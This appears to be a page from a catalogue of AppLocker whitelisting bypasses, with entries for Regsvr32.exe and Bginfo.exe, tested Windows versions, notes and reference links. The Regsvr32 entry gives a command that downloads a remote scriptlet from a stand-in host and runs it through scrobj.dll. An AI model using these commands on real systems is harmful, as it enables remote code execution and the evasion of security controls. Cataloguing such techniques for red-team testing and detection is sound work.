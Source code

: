 

## Regsvr32.exe

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: No  

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes: 
I only tested on Windows 10 against the default rules, it could work against older Windows versions.

* Links:  
  * https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md



## Bginfo.exe

```
bginfo.exe bginfo.bgi /popup /nolicprompt
```

* Windows binary: No  
* Bypasses AppLocker Default rules: No  

Verified on OS: 
- [x] Windows 10 1803
- [x] Windows 10 1709
- [x] Windows 10 1607
- [x] Windows 10 1511
- [x] Windows 10 1507
- [x] Windows 8.1
- [x] Windows 8
- [x] Windows 7

Notes:
Will work if BGinfo.exe is located in a path that is trusted by the policy.

* Links:  
  * https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
  * https://oddvar.moe/2017/05/22/clarification-bginfo-4-22-applocker-still-vulnerable/
  * https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/
